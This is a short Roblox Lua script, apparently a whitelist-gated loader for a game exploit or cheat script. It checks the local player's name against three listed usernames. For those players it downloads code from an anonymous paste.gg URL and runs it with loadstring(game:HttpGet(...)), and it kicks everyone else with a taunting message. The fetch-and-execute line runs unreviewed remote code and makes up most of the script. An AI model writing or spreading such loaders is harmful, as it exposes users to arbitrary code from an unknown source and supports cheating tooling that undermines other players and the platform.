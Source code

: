 -- gr1u updated whitelist

local WhitelistedUsernames = {
    ["Dragonblox836"] = true,
    ["widebodymhki"] = true,
    ["marktrujillo72"] = true
    
}

local Player = game.Players.LocalPlayer

local function isWhitelisted(player)
    local username = player.Name
    return WhitelistedUsernames[username] == true
end

if isWhitelisted(Player) then
    loadstring(game:HttpGet("https://paste.gg/p/anonymous/ec746110a98147efaefe0dd955e38264/files/65275454bab040e7a396cb4f19ca31f9/raw"))()
else
    game.Players.LocalPlayer:Kick("BlackListed - Restless.dreams DOESNT fwu😂.")
end
